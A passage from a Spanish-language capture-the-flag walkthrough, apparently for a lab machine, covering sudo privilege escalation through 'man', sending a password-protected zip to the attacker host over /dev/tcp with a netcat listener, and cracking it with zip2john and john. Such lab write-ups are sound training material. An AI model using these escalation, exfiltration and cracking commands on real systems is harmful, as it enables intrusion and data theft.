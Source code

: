 ###### Usuario `[ www-data ]`:
Listando los permisos de usuario tenemos lo siguiente:
```bash
sudo -l

User www-data may run the following commands on dca6103fc090:
    (balutin) NOPASSWD: /usr/bin/man
```

Explotacion de privilegios:
```bash
sudo -u balutin /usr/bin/man man # Primero ejecutamos este
!/bin/bash # Despues este
```

###### Usuario `[ balutin ]`:
Listando los archivos de este usuario tenemos lo siguiente:
```bash
secretito.zip
```

Si intentamos descomprimirlo nos pedira una contrasena:
```bash
unzip secretito.zip

Archive:  secretito.zip
[secretito.zip] traffic.pcap password: 

skipping: traffic.pcap            incorrect password
```

Como nos pide contrasena tendremos que pasarnos este archivo a nuestra maquina de atacante para realizar un ataque de fuerza bruta:
Verificamos si existe el binario de python en el sistema de la maquina victima:
```bash
which python3
```

Como no existe ahora lo pasaremos de la siguiente manera:
Primero nos ponemos en escucha en nuestra maquina de atacante:
```bash
nc -nlvp 4444 > secretito.zip
```

Ahora desde la maquina victima la transferimos a nuestra maquina:
```bash
cat ~/secretito.zip > /dev/tcp/172.17.0.1/4444
```

Ahora que tenemos en archivo en nuestro equipo de atacante, Usaremos **john** para crackear la contrasena:
```bash
zip2john secretito.zip > hash
```

Despues ejecutamos lo siguiente:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
